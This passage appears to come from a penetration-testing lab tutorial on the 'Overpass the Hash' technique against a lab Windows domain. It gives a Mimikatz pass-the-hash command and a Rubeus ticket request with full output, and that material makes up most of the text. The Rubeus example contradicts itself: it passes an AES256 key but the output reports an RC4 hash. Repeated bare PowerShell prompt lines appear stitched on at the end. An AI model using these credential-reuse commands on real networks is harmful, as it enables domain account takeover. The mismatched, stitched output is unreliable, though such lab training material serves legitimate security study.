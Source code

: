 ### Step2: Overpass the Hash

**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4\_hmac (NTLM) hash in a Kerberos exchange instead of an aes256\_cts\_hmac\_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

#### Method 1: Mimikatz + local admin privileges

```batch
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will spawn another cmd.exe window in which we can request anything in the context of the target user.

#### Method2: Rubeus with non-admin user

```batch
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID<SNIP>...

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 11:28:26 AM
  EndTime               :  7/12/2022 9:28:26 PM
  RenewTill             :  7/19/2022 11:28:26 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  0TOKzUHdgBQKMk8+xmOV2w==
```

***


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname